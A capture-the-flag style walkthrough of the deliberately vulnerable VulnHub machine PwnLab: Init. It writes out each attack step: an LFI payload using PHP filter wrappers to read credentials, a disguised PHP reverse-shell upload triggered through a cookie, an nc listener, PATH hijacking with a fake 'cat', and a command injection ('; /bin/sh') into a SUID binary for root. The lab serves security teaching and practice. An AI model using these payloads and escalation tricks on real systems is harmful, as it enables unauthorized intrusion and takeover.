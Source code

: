 # PwnLab: Init Walkthrough | vulnhub
## Overview

This walkthrough details the exploitation process of the PwnLab: Init vulnerable machine from VulnHub. The machine involves multiple vulnerabilities including LFI, insecure file uploads, and privilege escalation misconfigurations.
Reconnaissance
Nmap Scan
```
nmap <ip>
```
Discovered open ports with port 80 being particularly interesting.
Web Enumeration
### LFI Vulnerability

Found ` /config.php ` directory through directory enumeration.

Exploited Local File Inclusion (LFI) using PHP wrappers:
text
```
http://site/?page=php://filter/convert.base64-encode/resource=config
```
Retrieved base64-encoded credentials from the configuration file.
Database Access
MySQL Connection Attempt
```
mysql -h <ip> -u root -p
```
`
Received SSL error: ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
Bypassing SSL Requirement`
```
mysql -h 192.168.1.46 -u root -p --skip-ssl
```
Extracting User Credentials
sql
```
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | **************== |
| mike | **************== |
| kane | **************== |
+------+------------------+
```

### Web Application Access

Logged into the web application using discovered credentials.
File Upload Bypass

Uploaded PHP reverse shell disguised as GIF:
```
Filename: phpreverseshell.php.gif
```
And add gif header
```
GIF89a;
```
LFI

Used LFI to read index.php source code:
text
```
http://site/?page=php://filter/convert.base64-encode/resource=index
```
Discovered `include()` function vulnerability allowing file inclusion and execution.
Reverse Shell
Setup Listener
```
nc -nlvp <listening_port>
```
Trigger Reverse Shell

Modified cookie to execute uploaded file:
text
```
lang=../upload/imagefile.gif
```
Successfully obtained reverse shell connection.
Privilege Escalation
### User Enumeration

Switched to user kent: su kent (limited access)

Attempted to switch to user mike: Permission denied

Successfully switched to user kane: su kane

Found Interesting File

Discovered executable `msgmike` in kane's directory.
`PATH` Manipulation

Created malicious cat executable in /tmp:

```
cd /tmp
echo /bin/bash > cat
chmod 777 cat
export PATH=/tmp:$PATH
cd
./msgmike
```
Successfully escalated to user mike.
Root Escalation

Found another executable msg2root in mike's directory.

Exploited command injection:

```
./msg2root
# When prompted for input:
hi ; /bin/sh
```
### Successfully obtained root shell.
Key Vulnerabilities Exploited

Local File Inclusion (LFI) with PHP wrappers

Insecure file upload with extension bypass

MySQL authentication without SSL requirement

Weak credential storage (base64 encoding)

    PATH environment variable manipulation

    Command injection in SUID binary
